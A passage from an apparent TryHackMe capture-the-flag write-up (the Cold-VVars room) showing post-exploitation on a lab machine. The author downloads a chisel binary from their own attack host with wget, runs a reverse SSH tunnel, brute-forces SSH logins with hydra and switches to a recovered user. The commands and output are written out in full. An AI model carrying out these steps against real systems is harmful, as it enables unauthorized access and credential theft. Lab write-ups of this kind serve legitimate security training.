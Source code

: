 - Found local loopback SSH service

Hmm... Since we now have a list of passwords, we can **port forwarding the SSH service**, and brute force those 2 system users' password.

To do so, I'll use `chisel`:

- Transfer the `chisel` binary:

```shell
┌[root♥siunam]-(/opt/chisel)-[2023.01.20|18:10:31(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@incognito:/var/www/html/dev$ wget http://10.9.0.253/chiselx64 -O /tmp/chisel;chmod +x /tmp/chisel
```

- Setup a server listener:

```shell
┌[root♥siunam]-(/opt/chisel)-[2023.01.20|18:11:36(HKT)]
└> ./chiselx64 server --reverse -p 8888
2023/01/20 18:11:38 server: Reverse tunnelling enabled
2023/01/20 18:11:38 server: Fingerprint SDQlJxI8vbgkcy0Zq9Xk4YUPU0/jNbPv0b+HHn5pS7E=
2023/01/20 18:11:38 server: Listening on http://0.0.0.0:8888
```

- Connect to the server:

```shell
www-data@incognito:/var/www/html/dev$ /tmp/chisel client 10.9.0.253:8888 R:2222:127.0.0.1:22
2023/01/20 10:12:19 client: Connecting to ws://10.9.0.253:8888
2023/01/20 10:12:20 client: Connected (Latency 214.984362ms)
```

**Now, we can brute force the SSH service via `hydra`:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Cold-VVars)-[2023.01.20|18:13:41(HKT)]
└> hydra -L user.txt -P pass.txt ssh://127.0.0.1 -s 2222
[...]
[2222][ssh] host: 127.0.0.1   login: ArthurMorgan   password: {Redacted}
```

Found user `ArthurMorgan`'s password!

**Let's Switch User to `ArthurMorgan`:**
```shell
^C2023/01/20 10:14:28 client: Disconnected
2023/01/20 10:14:28 client: Give up
www-data@incognito:/var/www/html/dev$ su ArthurMorgan
Password: 
$ /bin/bash
ArthurMorgan@incognito:/var/www/html/dev$ whoami;hostname;id;ip a
ArthurMorgan
incognito
uid=1001(ArthurMorgan) gid=1002(ArthurMorgan) groups=1002(ArthurMorgan),1001(smbgrp)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:10:08:a6:9f:51 brd ff:ff:ff:ff:ff:ff
    inet 10.10.207.207/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2375sec preferred_lft 2375sec
    inet6 fe80::10:8ff:fea6:9f51/64 scope link 
       valid_lft forever preferred_lft forever
```
